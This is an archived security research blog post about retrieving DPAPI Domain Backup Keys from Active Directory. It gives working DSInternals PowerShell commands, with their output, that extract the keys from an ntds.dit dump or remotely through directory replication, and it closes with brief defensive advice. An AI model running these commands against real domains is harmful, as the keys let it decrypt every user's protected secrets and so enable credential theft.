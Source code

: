 ```yaml
---
id: 7641
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2016-06-19T10:23:28+00:00
author: Michael Grafnetter
layout: revision
guid: https://www.dsinternals.com/6191-revision-v1/
permalink: /6191-revision-v1/
---
```

<h3 style="text-align: justify;">
  Introduction
</h3>

<p style="text-align: justify;">
  The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an Active Directory domain environment, a&nbsp;copy of&nbsp;user&#8217;s master key is&nbsp;encrypted with a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the user, the&nbsp;user&#8217;s access to&nbsp;the master key is&nbsp;automatically restored using the&nbsp;backup key.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Mimikatz Method
</h3>

<p style="text-align: justify;">
  Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers and&nbsp;it even&nbsp;works remotely:
</p>

[<img class="aligncenter wp-image-6211 size-full" src="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png" alt="Mimikatz DPAPI Backup Keys" width="741" height="331" srcset="https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png 741w, https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys-300x134.png 300w" sizes="(max-width: 741px) 100vw, 741px" />](https://www.dsinternals.com/wp-content/uploads/mimikatz_backupkeys.png)

### Key Storage

<p style="text-align: justify;">
  I have taken Benjamin&#8217;s research one step further and&nbsp;I&nbsp;can now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are physically stored:
</p>

[<img class="aligncenter wp-image-6231 size-full" src="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png" alt="Backup Key Storage" width="643" height="254" srcset="https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png 643w, https://www.dsinternals.com/wp-content/uploads/backupkeys_storage-300x119.png 300w" sizes="(max-width: 643px) 100vw, 643px" />](https://www.dsinternals.com/wp-content/uploads/backupkeys_storage.png)

<p style="text-align: justify;">
  The&nbsp;keys are stored in&nbsp;the&nbsp;<strong>currentValue</strong> attribute of&nbsp;objects whose names begin with <strong>BCKUPKEY</strong> and&nbsp;are of&nbsp;class<strong> secret</strong>. The&nbsp;<strong>BCKUPKEY_PREFERRED Secret</strong> and&nbsp;<strong>BCKUPKEY_P Secret</strong> objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively. Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP.
</p>

<h3 style="text-align: justify;">
  The&nbsp;Database Dump Method
</h3>

<p style="text-align: justify;">
  The&nbsp;<strong>Get-BootKey</strong>, <strong>Get-ADDBBackupKey</strong> and&nbsp;<strong>Save-DPAPIBlob</strong> cmdlets from&nbsp;my <a href="https://www.dsinternals.com/en/downloads/">DSInternals PowerShell Module</a> can be used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:
</p>

<pre class="lang:ps decode:true"># We need to&nbsp;get the&nbsp;BootKey from&nbsp;the&nbsp;SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

&lt;#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#&gt;

# Now&nbsp;we can decrypt the&nbsp;DPAPI backup keys from&nbsp;the&nbsp;database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

&lt;#
Output:

Type&nbsp;: LegacyKey
DistinguishedName&nbsp;: CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {77, 138, 250, 6...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: PreferredLegacyKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {14, 178, 130, 120...}
KeyId&nbsp;: 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type&nbsp;: RSAKey
DistinguishedName&nbsp;: CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {48, 130, 9, 186...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type&nbsp;: PreferredRSAKeyPointer
DistinguishedName&nbsp;: CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData&nbsp;: {62, 106, 197, 177...}
KeyId&nbsp;: b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#&gt;

# In&nbsp;most cases, we just want to&nbsp;export these keys to&nbsp;the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in&nbsp;the&nbsp;Keys directory:

(dir .\Keys).Name

&lt;#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#&gt;</pre>

Note that&nbsp;mimikatz would name these files similarly.

### The&nbsp;DRSR Method

<p style="text-align: justify;">
  The&nbsp;same result can be achieved by&nbsp;communicating with the&nbsp;Directory Replication Service using the&nbsp;<strong>Get-ADReplBackupKey</strong> cmdlet:
</p>

<pre class="lang:ps decode:true">Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys</pre>

### Defense

I&nbsp;am already starting to&nbsp;repeat myself:

<li style="text-align: justify;">
  Restrict access to&nbsp;domain controller backups.
</li>
<li style="text-align: justify;">
  Be cautious when&nbsp;delegating the&nbsp;&#8220;Replicating Directory Changes All&#8221; right.
</li>

&nbsp;